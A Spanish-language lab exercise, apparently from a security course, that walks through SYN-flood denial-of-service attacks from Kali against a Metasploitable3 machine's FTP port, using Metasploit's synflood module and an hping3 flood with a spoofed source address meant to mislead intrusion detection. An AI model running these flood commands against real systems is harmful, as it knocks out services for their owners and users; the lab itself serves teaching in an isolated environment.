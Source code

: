 # Ataques DoS.
      

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasplotaible3-Win2k8***


Los ataques ***DoS*** son los más sencillos de realizar. El atacante intenta saturar a la víctima, y si lo consigue, ésta no podrá realizar su cometido habitual. 

También sabemos que los ataques distribuidos DoS, o ***DDoS***, son prácticamente imposibles de evitar. La única forma de defendernos de ellos es que la electrónica de red o el perimetral los detecte o mitigue, ya que los sistemas operativos actuales no pueden defenderse por ellos mismos.

Estos ataques se caracterizan por consumir el ancho de banda disponible en la red de la víctima o la CPU de los dispositivos. Pertenecen al grupo de ***Ataques Volumétricos***. Los ataques más habituales son ***Inundación UDP***, ***Inundación ICMP***, ***Inundación SYN***, ***Fragmentación***

## Ejercicio 1: Lanzar un ataque de DoS con Metasploit.

En la máquina ***Metasploitable3-Win2k8***, iniciamos sesión y abrimos el ***Administrador de Tareas***. Podemos comprobar como la carga de CPU/RAM de la máquina es normal.
  
![CPU/RAM](../img/lab-06-I/202210031732.png)

El uso de la red por parte de la máquina está al mínimo.

![RED](../img/lab-06-I/202210031734.png)

Esta máquina tiene varios servicios, entre ellos un servidor ***FTP***, un servidor ***web*** y ***mySQL***.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando.
```
nmap 192.168.20.14
```

Vamos a atacar al servidor FTP de la víctima por medio de un ataque de inundación SYN, para denegar el servicio FTP.
```
sudo msfconsole
```

Configuramos el ataque de la siguiente forma.
```
use auxiliary/dos/tcp/synflood
```

```
set RHOST 192.168.20.14
```

```
set RPORT 21
```

Para intentar engañar a los IDS, usamos el parámetro ***SHOST*** donde ponemos la IP (falsa) que está realizando el ataque.
```
set SHOST 192.168.20.100
```

Comprobamos que la configuración es correcta.
```
show options
```

![TCP SYN](../img/lab-06-I/202210031742.png)

Lanzamos el ataque.
```
run
```

Si observamos, en la víctima, apenas se ha incrementado la carga de CPU de la víctima un 5%-9%. ***Metasploit*** no es especialmente efectivo y necesitaría realizarse un ***DDoS*** para saturar a la víctima.

En la máquina ***Kali***, detenemos el ataque pulsando ***CTRL+C***.


## Ejercicio 2: Lanzar un ataque de DoS con Hping3.

Por el contrario, ***Hping3*** s mucho más eficiente. 

En la máquina ***Kali*** ejecutamos en la terminal el ataque equivalente, pero usando ***Hping3***.
```
sudo hping3 -S 192.168.20.14 -a 192.168.20.100 -p 21 --flood
```

Como podrás observar, el ataque consigue subir la ***CPU*** de la víctima en torno al 40%.

Podrías intentar abrir otras terminales y realizar el mismo ataque, obteniendo un incremento de uso de CPU de un 5% por cada terminal.

Al igual que el experimento anterior, para garantizar una denegación de servicio efectiva, independientemente del escalado vertical que pudiera llegar a tener la víctima, sería necesario recurrir a un ***DDoS***.

Finaliza los ataques cerrando las terminales.

***FIN DEL LABORATORIO***